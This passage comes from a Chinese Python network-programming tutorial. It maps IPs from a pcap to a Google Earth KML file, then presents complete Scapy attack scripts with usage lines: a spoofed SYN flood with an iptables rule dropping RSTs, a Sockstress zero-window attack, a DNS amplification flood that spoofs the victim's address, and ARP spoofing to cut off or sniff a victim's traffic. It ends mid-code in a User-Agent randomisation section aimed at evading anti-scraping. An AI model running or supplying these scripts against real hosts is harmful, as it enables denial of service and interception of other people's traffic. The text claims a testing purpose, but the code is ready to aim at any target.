            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            ret.append(dst)
        except:
            pass
    return set(ret)

if __name__ == '__main__':
    fp = open('d://lyshark.pcap','rb')
    pcap = dpkt.pcap.Reader(fp)
    addr = GetPcap(pcap)
    reader = geoip2.database.Reader("d://GeoLite2-City.mmdb")
    for item in addr:
        try:
            response = reader.city(item)
            print("IP地址: %-16s --> " %item,end="")
            print("网段: %-16s --> " %response.traits.network,end="")
            print("经度: %-10s 纬度: %-10s --> " %(response.location.latitude, response.location.longitude),end="")
            print("地区: {}".format(response.country.names["zh-CN"]),end="\n")
        except Exception:
            pass
```

当读者运行上述代码后，则可输出当前抓到数据包的详细信息，其中包括了网段，经纬度，地区等敏感数据，如下图所示；



当获取当经纬度详细信息后，则下一步就是要生成一个`Google`地图模板，一般`Google`底部模板采用`KML`文件格式，如下这段代码则是生成一个对应的地图模板，通过传入所需分析的`pcap`数据包以及数据库信息，则可以输出一个`GoogleEarth.kml`模板文件。

```python
import dpkt
import socket
import geoip2.database
from optparse import OptionParser

def GetPcap(pcap):
    ret = []
    for timestamp,packet in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(packet)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            ret.append(dst)
        except:
            pass
    return set(ret)

def retKML(addr,longitude,latitude):
    kml = (
              '<Placemark>\n'
              '<name>%s</name>\n'
              '<Point>\n'
              '<coordinates>%6f,%6f</coordinates>\n'
              '</Point>\n'
              '</Placemark>\n'
          ) %(addr, longitude, latitude)
    return kml

if __name__ == '__main__':
    parser = OptionParser()
    parser.add_option("-p", "--pcap", dest="pcap_file", help="set -p *.pcap")
    parser.add_option("-d", "--mmdb", dest="mmdb_file", help="set -d *.mmdb")
    (options, args) = parser.parse_args()
    if options.pcap_file and options.mmdb_file:
        fp = open(options.pcap_file,'rb')
        pcap = dpkt.pcap.Reader(fp)
        addr = GetPcap(pcap)
        reader = geoip2.database.Reader(options.mmdb_file)

        kmlheader = '<?xml version="1.0" encoding="UTF-8"?>\
        \n<kml xmlns="http://www.opengis.net/kml/2.2">\n<Document>\n'
        with open("GoogleEarth.kml", "w") as f:
            f.write(kmlheader)
            f.close()

        for item in addr:
            try:
                response = reader.city(item)
                print("IP地址: %-16s --> " %item,end="")
                print("网段: %-16s --> " %response.traits.network,end="")
                print("经度: %-10s 纬度: %-10s --> " %(response.location.latitude, response.location.longitude),end="")
                print("地区: {}".format(response.country.names["zh-CN"]),end="\n")

                with open("GoogleEarth.kml","a+") as f:
                    f.write(retKML(item,response.location.latitude, response.location.longitude))
                    f.close()
            except Exception:
                pass

        kmlfooter = '</Document>\n</kml>\n'
        with open("GoogleEarth.kml", "a+") as f:
            f.write(kmlfooter)
            f.close()
    else:
        parser.print_help()
```

此时打开谷歌地图，并选择左侧的`项目`菜单，选择从计算机中导入KML文件，并自行将`googleearth.kml`文件导入到地图文件内，如下图所示；

- 谷歌地图：https://www.google.com/earth/


当导入成功后，此时在地图左侧将会出现一些坐标信息，此时读者可自行点击这些坐标以确定当前IP地址的详细位置，当然该地址仅供参考，因为某些主机的地址可能会使用隐藏IP的方式并不一定确保一定准确。



当然了上述代码只是一个演示案例，在实际过滤中我们可以会进行多层解析，例如如下这段代码，其中`AnalysisIP_To_Address`函数就可用于接收一个过滤规则，代码中`dport ==80 or dport == 443`则用于只过滤出目标端口是`80`或`443`的主机信息，读者也可自行增加一条符合规则的过滤条件进行自定义捕捉，此处仅仅只是一个演示案例。

```python
import argparse
import socket,dpkt
import geoip2.database

def AnalysisPace(DpktPack,Filter):
    respon = []
    with open(DpktPack,"rb") as fp:
        pcap = dpkt.pcap.Reader(fp)
        for timestamp, packet in pcap:
            try:
                eth = dpkt.ethernet.Ethernet(packet)
                # 解析过滤出网络层(三层)中的IP数据包
                if eth.data.__class__.__name__ == "IP":
                    ip = eth.data
                    src = socket.inet_ntoa(ip.src)
                    dst = socket.inet_ntoa(ip.dst)
                    # 解析过滤出传输层(四层)中的TCP数据包
                    if eth.data.data.__class__.__name__ == "TCP":
                        sport = eth.data.data.sport
                        dport = eth.data.data.dport
                        # 过滤出源地址是192.168.1.2且目的端口是80或者443的流量
                        # if src == "192.168.1.2" and dport == 80 or dport == 443:
                        if eval(Filter):
                            dic = { "src":"None","sport":0 , "dst":"None","dport":0 }
                            #print("[+] 时间戳: %-17s 源地址: %-14s:%-2s ---> 目标地址: %-16s:%-2s" %(timestamp,src, sport, dst, dport))
                            RecvData = eth.data.data.data
                            if len(RecvData) and b"GET" in RecvData:
                                #print("[*] 时间戳: {} 源地址: {} <--- 访问网页: {}".format(timestamp,src,bytes.decode(RecvData).split("\n")[1]))
                                pass
                            dic['src'] = src
                            dic['dst'] = dst
                            dic['sport'] = sport
                            dic['dport'] = dport
                            respon.append(dic)
            except Exception:
                pass
    return respon

def AnalysisIP_To_Address(PcapFile,MmdbFile):
    IPDict = AnalysisPace(PcapFile,"dport ==80 or dport == 443")
    NoRepeat = []

    for item in range(len(IPDict)):
        NoRepeat.append(IPDict[item].get("dst"))
    NoRepeat = set(NoRepeat)

    reader = geoip2.database.Reader(MmdbFile)
    for item in NoRepeat:
        try:
            response = reader.city(item)
            print("[+] IP地址: %-16s --> " %item,end="")
            print("网段: %-16s --> " %response.traits.network,end="")
            print("经度: %-10s 纬度: %-10s --> " %(response.location.latitude, response.location.longitude),end="")
            print("定位: {} {} {}".format(response.country.names["zh-CN"],response.subdivisions.most_specific.name,response.city.name),end="\n")
        except Exception:
            print("定位: None None None")
            pass

if __name__ == '__main__':
    Banner()
    parser = argparse.ArgumentParser()
    parser.add_argument("-p", "--pcap", dest="pcap", help="设置抓到的数据包 *.pcap")
    parser.add_argument("-d", "--mmdb", dest="mmdb", help="设置城市数据库 GeoLite2-City.mmdb")
    
    args = parser.parse_args()
    # 使用方式: main.py -p data.pcap -d GeoLite2-City.mmdb (分析数据包中IP)
    if args.pcap and args.mmdb:
        AnalysisIP_To_Address(args.pcap,args.mmdb)
    else:
        parser.print_help()
```

### 21.4 使用Scapy实现网络攻击

Scapy是一款Python库，可用于构建、发送、接收和解析网络数据包。除了实现端口扫描外，它还可以用于实现各种网络安全工具，例如`SynFlood`攻击，`Sockstress`攻击，`DNS`查询攻击，`ARP`攻击，`ARP`中间人等。这些工具都是基于构造、发送和解析网络数据包来实现的，可以用于模拟各种网络攻击，测试网络安全防御措施等。Scapy是网络安全领域中非常有用的工具之一。

#### 21.4.1 SynFlood攻击

Syn-Flood（Syn洪水攻击）是一种常见的`DoS`拒绝服务攻击方式，也被称为`TCP Syn-Flood`攻击。攻击者利用`TCP`连接建立过程中的漏洞，向目标主机发送大量的`TCP`连接请求（`SYN`），目标主机在收到这些请求后会回复一个`SYN/ACK`确认请求，但是攻击者并不回复`ACK`确认，使得目标主机在等待`ACK`确认的过程中，消耗大量的系统资源和带宽，从而导致目标主机无法正常处理合法的连接请求，使得正常用户无法访问该服务。


默认情况下每一种系统的并发连接都是有限制的，如果恶意攻击持续进行，将会耗尽系统有限的连接池资源。在`Windows`系统下这个半开连接数是`10`个，具体来说攻击者可以通过伪造地址对服务器发起`SYN`请求，服务器就会回应`SYN+ACK`此时攻击者的主机如果拒绝发送`RST+ACK`标志，那么服务器接收不到`RST`请求，就会认为客户端还没有准备好，会重试`3-5`次并且等待一个`SYN Time`超时（一般30秒-2分钟）后，丢弃这个连接，虽然有丢包的功能，但是如果攻击者的攻击速度大于目标主机的丢包速度，那么`TCP`连接池将被填满，此时正常用户将会无法连接到程序中而导致拒绝服务。

由于在发送`SYN`报文后我们不希望接收到目标主机回复给我们的`RST`标志，所以需要执行如下这条防火墙命令，将发送到被害IP的`RST`包丢弃，这样就可以构造出一个非完全TCP链接，也正是我们想要的效果。

```bash
iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 被害主机IP地址 -j DROP
```

接着就是完整的攻击代码，这段代码需要在`Linux`系统下运行，在运行之前需要指定`iface`网卡接口，当指定后即可调用攻击代码代码片段实现发包。

```python
#coding=utf-8
import argparse
import socket,sys,random,threading
from scapy.all import *

scapy.config.conf.iface = 'ens32'

# 攻击目标主机TCP/IP半开放连接数
def synflood(target,dstport):
    # 加锁
    semaphore.acquire()
    issrc = '%i.%i.%i.%i' % (random.randint(1,254),random.randint(1,254),random.randint(1,254), random.randint(1,254))
    isport = random.randint(1,65535)
    ip = IP(src = issrc,dst = target)
    syn = TCP(sport = isport, dport = dstport, flags = 'S')
    send(ip / syn, verbose = 0)
    print("[+] sendp --> {} {}".format(target,isport))
    # 释放锁
    semaphore.release()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-H","--host",dest="host",type=str,help="输入被攻击主机IP地址")
    parser.add_argument("-p","--port",dest="port",type=int,help="输入被攻击主机端口")
    parser.add_argument("--type",dest="types",type=str,help="指定攻击的载荷 (synflood)")
    parser.add_argument("-t","--thread",dest="thread",type=int,help="指定攻击并发线程数")
    args = parser.parse_args()
    # 使用方式: main.py --type=synflood -H 192.168.1.1 -p 80 -t 10
    if args.types == "synflood" and args.host and args.port and args.thread:
        semaphore = threading.Semaphore(args.thread)
        while True:
            t = threading.Thread(target=synflood,args=(args.host,args.port))
            t.start()
    else:
        parser.print_help()
```

读者可自行运行上述代码，通过传入`--type=synflood -H 192.168.1.1 -p 80 -t 10`参数，其含义是对`192.168.1.1`主机的`80`端口执行洪水攻击，并启用`10`个线程执行，输出效果图如下所示；



#### 21.4.2 SockStress攻击

SockStress 全连接攻击属于`TCP`全连接攻击，其攻击的原理与`SYN Flood`攻击类似，但是它使用完整的TCP三次握手，这使得它更难以检测和防御。该攻击的关键点就在于，攻击主机将`windows`窗口缓冲设置为`0`实现拒绝服务。攻击者向目标发送一个很小的流量，但是会造成产生的攻击流量是一个巨大的，该攻击消耗的是目标系统的`CPU/内存`资源，使用低配版的电脑，依然可以让庞大的服务器拒绝服务，也称之为放大攻击。



该攻击方式通过与目标主机建立大量的`socket`连接，并且都是完整连接，最后的`ACK`包，将`Window`窗口大小设置为`0`，客户端不接收数据，而服务器此时会认为客户端缓冲区还没有准备好，从而一直等待下去（持续等待将使目标机器内存一直被占用），由于是异步攻击，所以单机模式也可以拒绝高配的服务器。

```python
#coding=utf-8
import argparse
import socket,sys,random,threading
from scapy.all import *

scapy.config.conf.iface = 'ens32'

# 攻击目标主机的Window窗口
def sockstress(target,dstport):
    # 加锁
    semaphore.acquire()
    isport = random.randint(0,65535)
    response = sr1(IP(dst=target)/TCP(sport=isport,dport=dstport,flags="S"),timeout=1,verbose=0)
    send(IP(dst=target)/ TCP(dport=dstport,sport=isport,window=0,flags="A",ack=(response[TCP].seq +1))/'\x00\x00',verbose=0)
    print("[+] sendp --> {} {}".format(target,isport))
    # 释放锁
    semaphore.release()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-H","--host",dest="host",type=str,help="输入被攻击主机IP地址")
    parser.add_argument("-p","--port",dest="port",type=int,help="输入被攻击主机端口")
    parser.add_argument("--type",dest="types",type=str,help="指定攻击的载荷 (sockstress)")
    parser.add_argument("-t","--thread",dest="thread",type=int,help="指定攻击并发线程数")
    args = parser.parse_args()
    # 使用方式: main.py --type=sockstress -H 192.168.1.1 -p 80 -t 10
    if args.types == "sockstress" and args.host and args.port and args.thread:
        semaphore = threading.Semaphore(args.thread)
        while True:
            t = threading.Thread(target=sockstress,args=(args.host,args.port))
            t.start()
    else:
        parser.print_help()
```

这段代码的使用方法与`SynFlood`攻击保持一致，通过指定`--type=sockstress -H 192.168.1.1 -p 80 -t 100`即可实现对特定主机特定端口的拒绝服务，输出效果如下图所示；



#### 21.4.3 DNS查询攻击

DNS查询放大攻击是一种利用域名系统（DNS）服务器的缺陷来放大攻击流量的网络攻击。攻击者通过向具有恶意域名的`DNS`服务器发送`DNS`查询请求，该服务器会向被攻击者发送响应，但是响应内容比请求更大。攻击者可以利用这种响应的放大效应，将大量流量发送到被攻击者的系统上，从而导致系统资源的耗尽和服务不可用。

该攻击可以通过欺骗和利用`DNS`协议的特性进行，通常利用`UDP`端口`53`来执行。攻击者会伪造一个源`IP`地址，向`DNS`服务器发送一个查询请求，请求的数据包比较小，但是响应的数据包比请求的数据包大很多，这就导致了放大的效果。

DNS是域名系统（Domain Name System）的缩写，是一个用于将域名转换为`IP`地址的分布式数据库系统。在进行`DNS`查询时，客户端会向`DNS`服务器发送`DNS`查询请求（`DNS Query，DNSQR`）包，DNS服务器则会回应`DNS`响应（`DNS Response，DNSRR`）包。

一个DNSQR包含以下重要的字段：

- 问题域名（QNAME）：需要进行查询的域名
- 查询类型（QTYPE）：查询的类型，例如A记录、AAAA记录、CNAME记录等
- 查询类（QCLASS）：查询的类别，通常为Internet（IN）

一个DNSRR包含以下重要的字段：

- 资源记录名称（RR NAME）：资源记录的名称
- 资源记录类型（TYPE）：资源记录的类型，例如A记录、AAAA记录、CNAME记录等
- 资源记录类（CLASS）：资源记录的类别，通常为Internet（IN）
- 生存时间（TTL）：资源记录在DNS缓存中的生存时间
- 数据长度（RDLENGTH）：资源记录的数据长度
- 资源记录数据（RDATA）：资源记录的数据，例如IPv4地址、IPv6地址、域名等

我们首先使用`Scapy`库解析`DNSRR`数据包，DNSRR是`DNS`协议中的一种资源记录（Resource Record），用于表示`DNS`服务器返回的回答记录。其格式包括了Name（域名）、Type（资源记录类型）、Class（资源记录类别）、TTL（生存时间）、RDLENGTH（数据长度）、RDATA（数据）。

在`DNS`响应中，通常会有多个`DNSRR`记录，每个记录包含一个域名对应的`IP`地址或其他资源信息。例如，一个A记录的`DNSRR`会包含一个域名和一个`IPv4`地址。而`MX`记录的`DNSRR`则会包含一个域名和一个邮件服务器的优先级和地址，如下代码实现了分别提取出含有查询的域名和对应的`IP`的`rrname`和`rdata`变量，并将这些数据输出到屏幕。

```python
#coding=utf-8
from scapy.all import *
from IPy import IP as PYIP

# 检查数据包的IP层,提取出IP和TTL字段的值
def Get_TTL(pkt):
    try:
        if pkt.haslayer(IP):
            ip_src = pkt.getlayer(IP).src
            ip_sport = pkt.getlayer(IP).sport
            ip_dst = pkt.getlayer(IP).dst
            ip_dport = pkt.getlayer(IP).dport
            ip_ttl = str(pkt.ttl)
            print("[+] 源地址: %15s:%-5s --> 目标地址: %15s:%-5s --> TTL: %-5s"%(ip_src,ip_sport,ip_dst,ip_dport,ip_ttl))
    except Exception:
        pass

# 获取本机发送出去的DNS请求所对应的网站地址
def GetDNSRR(pkt):
    if pkt.haslayer(DNSRR):
        rrname = pkt.getlayer(DNSRR).rrname
        rdata = pkt.getlayer(DNSRR).rdata
        ttl = pkt.getlayer(DNSRR).ttl
        print("[+] 域名: {} --> 别名: {} --> TTL: {}".format(rrname,rdata,ttl))

if __name__=="__main__":
    sniff(prn=GetDNSRR,store=0)
```

读者可自行运行上述代码，此时当有DNS查询时，则会自动解析出对应的别名以及该主机的TTL值，如下图所示；



接着我们来解析一下`DNSQR`，DNSQR是`DNS`查询请求的部分，用于`DNS`协议的域名解析。DNSQR包含以下字段：

- qname：表示查询的域名，例如www.lyshark.com
- qtype：表示查询类型，通常为A记录、CNAME记录、MX记录等
- qclass：表示查询类别，通常为IN（Internet）

DNSQR记录通常包含在`DNS`消息中的请求部分中，请求部分也可以包含多个`DNSQR`记录，每个记录对应一个查询，解析此类数据同样很容易实现，具体代码如下所示；

```python
#coding=utf-8
from scapy.all import *
from IPy import IP as PYIP

# 获取本机发送出去的网址请求解析为IP URL --> IP
def GetDNSQR(pkt):
    # 判断是否含有DNSRR且存在UDP端口53
    if pkt.haslayer(DNSRR) and pkt.getlayer(UDP).sport == 53:
        rcode = pkt.getlayer(DNS).rcode
        qname = pkt.getlayer(DNSQR).qname
        # 若rcode为3，则表示该域名不存在
        if rcode == 3:
            print("[-] 域名解析不存在")
        else:
            print("[+] 解析存在:" + str(qname))

if __name__=="__main__":
    sniff(prn=GetDNSQR,store=0)
```

读者可运行上述代码，此时即可输出当前系统内访问过的链接，输出效果如下图所示；



接着我们就来实现查询放大攻击，查询放大攻击的原理是，通过网络中存在的`DNS`服务器资源，对目标主机发起拒绝服务攻击，通过伪造源地址为被攻击目标的地址，向`DNS`递归服务器发起查询请求，此时由于源`IP`是伪造的，固在`DNS`服务器回包的时候，会默认回给伪造的`IP`地址，从而使`DNS`服务成为了流量放大和攻击的实施者，通过查询大量的`DNS`服务器，从而实现反弹大量的查询流量，导致目标主机查询带宽被塞满，实现`DDOS`的目的。

查询放大攻击的实施依赖于海量的DNS服务器资源，所以在执行攻击时需要自行寻找这些服务器资源，当找到后则可存储到文件内，当需要使用时首先调用`Inspect_DNS_Usability`函数依次验证DNS服务器的可用性，并将可用的地址保存为`pass.log`文件，当需要发起攻击时可通过`DNS_Flood`调用并传入合法的DNS服务器地址实现DNS查询。

```python
import os,sys,threading,time
from scapy.all import *
import argparse

def Inspect_DNS_Usability(filename):
    proxy_list = []
    fp = open(filename,"r")
    for i in fp.readlines():
        try:
            addr = i.replace("\n","")
            respon = sr1(IP(dst=addr)/UDP()/DNS(rd=1,qd=DNSQR(qname="www.baidu.com")),timeout=2)
            if respon != "":
                proxy_list.append(str(respon["IP"].src))
        except Exception:
            pass
    return proxy_list

def DNS_Flood(target,dns):
    # 构造IP数据包
    ip_pack = IP()
    ip_pack.src = target
    ip_pack.dst = dns
#   ip_pack.src = "192.168.1.2"
#   ip_pack.dst = "8.8.8.8"
    # 构造UDP数据包
    udp_pack = UDP()
    udp_pack.sport = 53
    udp_pack.dport = 53
    # 构造DNS数据包
    dns_pack = DNS()
    dns_pack.rd = 1
    dns_pack.qdcount = 1
    # 构造DNSQR解析
    dnsqr_pack = DNSQR()
    dnsqr_pack.qname = "baidu.com"
    dnsqr_pack.qtype = 255
    dns_pack.qd = dnsqr_pack
    respon = (ip_pack/udp_pack/dns_pack)
    sr1(respon)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--mode",dest="mode",help="选择执行命令<check=检查DNS可用性/flood=攻击>")
    parser.add_argument("-f","--file",dest="file",help="指定一个DNS字典,里面存储DNSIP地址")
    parser.add_argument("-t",dest="target",help="输入需要攻击的IP地址")
    args = parser.parse_args()
    # 使用方式: main.py --mode=check -f xxx.log
    if args.mode == "check" and args.file:
        proxy = Inspect_DNS_Usability(args.file)
        fp = open("pass.log","w+")
        for item in proxy:
            fp.write(item + "\n")
        fp.close()
        print("[+] DNS地址检查完毕,当前可用DNS保存为 pass.log")
    # 使用方式: main.py --mode=flood -f xxx.log -t 192.168.1.1
    elif args.mode == "flood" and args.target and args.file:
        with open(args.file,"r") as fp:
            countent = [line.rstrip("\n") for line in fp]
            while True:
                randomDNS = str(random.sample(countent,1)[0])
                print("[+] 目标主机: {} -----> 随机DNS: {}".format(args.target,randomDNS))
                t = threading.Thread(target=DNS_Flood,args=(args.target,randomDNS,))
                t.start()
    else:
        parser.print_help()
```

读者可保存这段代码，并自行准备一些DNS服务器地址，放入到`dns.log`目录下，通过执行如下所示的命令即可依次验证服务器地址可用性，如果可用则自动保存到`pass.log`文件内，输出效果如下所示；



当需要对特定主机发起攻击时，可执行如下命令，其中`-t`带指的则是需要攻击的IP地址，输出效果图如下所示；



#### 21.4.4 ARP中间人攻击

ARP中间人攻击（ARP spoofing）是一种利用本地网络的`ARP`协议漏洞进行欺骗的攻击方式，攻击者会向目标主机发送虚假`ARP`响应包，使得目标主机的`ARP`缓存中的`IP`地址和`MAC`地址映射关系被篡改，从而使得目标主机将网络流量发送到攻击者指定的虚假`MAC`地址。攻击者可以在不被发现的情况下窃取目标主机的网络流量、信息等，也可以进行其他的恶意行为，如中间人攻击、监听等。

首先我们来实现一个简单的ARP扫描功能，要实现ARP探测功能很容易，如下代码中我们分别封装实现两个函数，函数`Parse_IP`用于传入一个IP地址字符串自动生成该网段内的所有主机数，函数`ARP_Scan`则用于发送ARP数据包，在构造时直接使用`ARP`函数即可，构造后通过`sr1`将其发送出去并等待返回结果。

```python
from scapy.all import *
import argparse
import threading,time
import logging

# 生成网段信息,例如输入: 192.168.1.1/20 生成1-20地址
def Parse_IP(targets):
    _split = targets.split('/')
    first_ip = _split[0]
    ip_split = first_ip.split('.')
    ipv4 = range(int(ip_split[3]),int(_split[1])+1)
    addr = [ ip_split[0]+'.'+ip_split[1]+'.'+ip_split[2]+'.'+str(p) for p in ipv4 ]
    return addr

# 通过ARP协议扫描局域网中在线的设备
def ARP_Scan(address):
    try:
        ret = sr1(ARP(pdst=address),timeout=5,verbose=False)
        if ret:
            if ret.haslayer('ARP') and ret.fields['op'] == 2:
                print('[+] IP地址: %-13s ==> MAC地址: %-15s' %(ret.fields['psrc'],ret.fields['hwsrc']))
    except Exception:
        exit(1)

if __name__ == "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    parser = argparse.ArgumentParser()
    parser.add_argument("-s","--scan",dest="scan",help="输入一个扫描网段")
    args = parser.parse_args()
    # 使用方式: main.py -s 192.168.1.1/100
    if args.scan:
        addr_list = Parse_IP(args.scan)
        for item in addr_list:
            threads = []
            t = threading.Thread(target=ARP_Scan,args=(item,))
            threads.append(t)
            t.start()
        for item in threads:
            item.join()
    else:
        parser.print_help()
```

上述代码通过指定`-s`并传入一个地址网段`192.168.9.0/24`则自动计算该网段主机数，并依次对主机进行存活检测，输出效果图如下所示；



当我们能够得到内网中特定主机的`IP`地址以及`MAC`地址后，则下一步就可以使用`ARP`断网攻击了，该攻击原理是攻击者在目标网络中发送虚假的`ARP`响应包，使得目标设备误认为网关的`MAC`地址已经更改为攻击者的`MAC`地址，导致目标设备无法正常访问外部网络，从而达到网络断网的目的。

读者在使用ARP断网之前还是需要通过`ipconfig /all`命令确定当前网卡的网卡名称，如下图所示网卡描述则是我们需要的东西；



接着来看一下如何实现ARP断网攻击的，断网攻击的核心在于`SendPayLoad`函数，该函数每次调用都将发送两个数据包，第一个数据包用于伪造网关欺骗目标计算机我是网关，第二个数据包用于伪造被欺骗计算机，用于向网关表明身份，有了这两个数据包并配合多线程发包则此时被攻击主机将会出现网络无法连接的情况。

```python
from scapy.all import *
import argparse
import threading,time
import logging

# 创建并发送有效载荷
def SendPayload(Interface,srcMac,tgtMac,gateWayMac,gatewayIP,tgtIP):
    print("[+] 目标MAC: {} 目标IP: {} 发送: 2 packets".format(tgtMac,tgtIP))
    # 生成ARP数据包,伪造网关欺骗目标计算机
    sendp(Ether(src=srcMac,dst=tgtMac)/ARP(hwsrc=srcMac,psrc=gatewayIP,hwdst=tgtMac,pdst=tgtIP,op=2),iface=Interface)
    # 生成ARP数据包,伪造目标计算机欺骗网关
    sendp(Ether(src=srcMac,dst=gatewayMac)/ARP(hwsrc=srcMac,psrc=tgtIP,hwdst=gatewayMac,pdst=gatewayIP,op=2),iface=Interface)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-i","--interface",dest="interface",help="输入接口名")
    parser.add_argument("-g","--gateway",dest="gateway",help="输入网关地址")
    parser.add_argument("-t","--target",dest="target",help="输入被害主机地址")
    args = parser.parse_args()

    # 使用方式: main.py -i "Intel(R) Ethernet Connection (7) I219-LM" -g 192.168.9.1 -t 192.168.9.10
    if args.gateway and args.target:
            srcMac = get_if_hwaddr(args.interface)                 # 通过接口名称获取本机MAC地址
            tgtMac = getmacbyip(args.target)                       # 通过IP地址获取目标计算机的MAC地址
            gatewayMac = getmacbyip(args.gateway)                  # 指定本机网段的网关MAC地址
            while True:
                t = threading.Thread(target=SendPayload,args=(args.interface,srcMac,tgtMac,gatewayMac,args.gateway,args.target))
                t.start()
                t.join()
                time.sleep(1)
    else:
        parser.print_help()
```

读者在调用时需要传入三个参数，首先通过`-i`传入网卡名称，接着通过`-g`指定当前网段内网关名称，使用`-t`用于指定被害主机地址，运行后如下图所示；



有了ARP断网接着就来实现ARP嗅探功能，针对断网攻击对于攻击者来说其实无法得到更多有用的数据，我们还是希望能够监控目标主机的数据包，并通过分析数据包得知一些特殊操作，为了实现这个功能，就需要改进断网程序让其具备嗅探的功能，要实现嗅探而不是断网则需要进行两步配置，首先需要开启注册表转发功能，此处可以输入命令`regedit`打开注册表编辑器，并在其中定位到：

- HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters

选择下面的项目`IPEnableRouter:REG_DWORD:0x0` 找到项目鼠标右键修改数值为`1`至此即可开启主机的IP数据路由功能。



接着读者还需要打开系统服务菜单，并找到`Routing And RemoteAccess`数据包转发服务，此处如果没有打开请自行将其开启，当开启后我们的主机将会具备路由转发功能，这样即可实现模拟路由器的效果。



嗅探的原理很简单，如下是一个完整的数据包嗅探工具，其中`createArp2Station`函数用于生成伪造网关的数据包用于欺骗客户端，`createArp2Gateway`函数则用于伪造目标主机数据包并欺骗网关，当有了这两个函数，再配合`sniff`抓包即可实现数据包的捕获，如果读者需要自行分析数据包来往则可以自定义`Packet_CallBack`回调函数实现。

```python
import sys,os,threading
import argparse
from scapy.all import *

# 生成ARP数据包,伪造网关欺骗目标计算机
def createArp2Station(interface,target_ip,gateway_ip):
    dst_Mac=str(getmacbyip(target_ip))
    self_Mac=str(get_if_hwaddr(interface))
    Ether_data=Ether(src=self_Mac,dst=dst_Mac) / ARP(op=2,hwsrc=self_Mac,psrc=gateway_ip,hwdst=dst_Mac,pdst=target_ip)
    try:
        sendp(Ether_data,inter=2,iface=interface,loop=1)
    except Exception as e:
        print("目标ARP数据发送失败!")

# 生成ARP数据包,伪造目标计算机欺骗网关
def createArp2Gateway(interface,target_ip,gateway_ip):
    dst_Mac = getmacbyip(gateway_ip)
    self_Mac = get_if_hwaddr(interface)
    Ether_data = None
    Ether_data = Ether(src=self_Mac, dst=dst_Mac) / ARP(op=2, hwsrc=self_Mac, psrc=target_ip, hwdst=dst_Mac, pdst=gateway_ip)
    try:
        sendp(Ether_data, inter=2,iface=interface,loop=1)
    except Exception as e:
        print("网关ARP数据发送失败!")

def Packet_CallBack(pkt):
    if pkt.haslayer(IP):
        if pkt.getlayer(IP).src != "127.0.0.1":
            ip_src = pkt.getlayer(IP).src
            ip_dst = pkt.getlayer(IP).dst
            print("源地址: {} ---> 目标地址: {}".format(ip_src,ip_dst))

if __name__ == "__main__":
    # 使用方式: main.py -i "Intel(R) Ethernet Connection (7) I219-LM" -g 192.168.9.1 -t 192.168.9.10
    parser = argparse.ArgumentParser()
    parser.add_argument("-i","--interface",dest="interface",help="输入网卡名称")
    parser.add_argument("-t","--target_ip",dest="target_ip",help="输入目标主机IP")
    parser.add_argument("-g","--gateway",dest="gateway",help="输入网关地址")
    args = parser.parse_args()
    if args.interface and args.target_ip and args.gateway:
        try:
            t1=threading.Thread(target=createArp2Station,args=(args.interface,args.target_ip,args.gateway))
            t1.setDaemon(True)
            t1.start()
            t2=threading.Thread(target=createArp2Gateway,args=(args.interface,args.target_ip,args.gateway))
            t2.setDaemon(True)
            t2.start()
            sniff(prn=Packet_CallBack,filter="tcp",iface=args.interface)
        except Exception:
            sys.exit(1)
        while True:
            pass
    else:
        parser.print_help()
```

读者可自行运行上述程序，并通过`-i`属性指定网卡名，通过`-g`属性指定网关地址，通过`-t`指定为被害主机地址，运行后读者即可看到被害主机的数据包流向信息，如下图所示；



此时被害主机的所有数据包都会经过我们的主机，读者可打开`WireShark`并启动抓包，此时输入输入不同的过滤语句，即可指定需要查看的数据包类型，此时我们就是实现了对特定主机的监控，当然这种监控数据包会掺杂我们自己的主机发出的，读者可自行编写过滤规则实现过滤；



### 21.5 使用HTTP解析库

#### 21.5.1 Request

Request库可以用来发送各种`HTTP`请求，该框架的特点是简单易用，同时支持同步和异步请求，支持`HTTP`协议的各种方法和重定向。它还支持`Cookie`、`HTTPS`和认证等特性。 `Request`库的使用非常广泛，可以用于网络爬虫、API调用、网站测试等场景。

读者如果需要使用这个库，同样需要执行pip命令用以安装：

- 安装PIP包：pip install requests -i https://pypi.tuna.tsinghua.edu.cn/simple

在开始使用之前，我们需要编写一个简单的生成随机`User-Agent`的函数，User-Agent是一个HTTP协议头部，用于标识请求的客户端身份信息，包括客户端的应用软件、操作系统、硬件设备等信息。服务器可以通过User-Agent头部信息来确定客户端的类型，并针对不同类型的客户端提供不同的服务或页面展现效果。

对于爬虫来说我们并不希望固定这个值，而是希望每次调用时都会产生一个新的随机值，以此来实现每次访问固定页面时使用不同的`User-Agent`头，并且让`Referer`头也保持每次随机化，通过这种方式可以在一定程度上缓解反爬机制，如下则是实现随机请求体的实现代码；

```python
import random

# 随机获取一个请求体
def GetUserAgent(url):
    UsrHead = ["Windows; U; Windows NT 6.1; en-us", "Windows NT 5.1; x86_64", "Ubuntu U; NT 18.04; x86_64",
               "Windows NT 10.0; WOW64", "X11; Ubuntu i686;", "X11; Centos 8 x86_64;",
               "compatible; MSIE 9.0; Windows NT 8.1;",
               "X11; SuUSE Linux i686", "Macintosh; U; Intel Mac OS X 10_6_8; en-us",
               "compatible; MSIE 7.0; Windows Server 6.1",
               "Macintosh; Intel Mac OS X 10.6.8; U; en", "compatible; MSIE 6.0; Windows NT 5.1", "iPad; CPU OS 4_3_3;",
               "Windows NT 10.0; WOW64; rv:38.0", "Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C;",
               "MSIE 10.0; Windows NT 6.1;",
               "iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X;", "iPod; U; CPU iPhone OS 4_3_3 like Mac OS X;",
               "Linux; U; Android 6.0;","Linux; U; Android 9.0;","Linux; U; Android 7.1;","Linux; U; Android 10.0;"
               "Linux; U; Nexus One Build/FRF91", "BlackBerry; U; BlackBerry 9800;","BlackBerry; U; BlackBerry 7800;"
               "hp-tablet; Linux; hpwOS/3.0.0; U;  en-US",
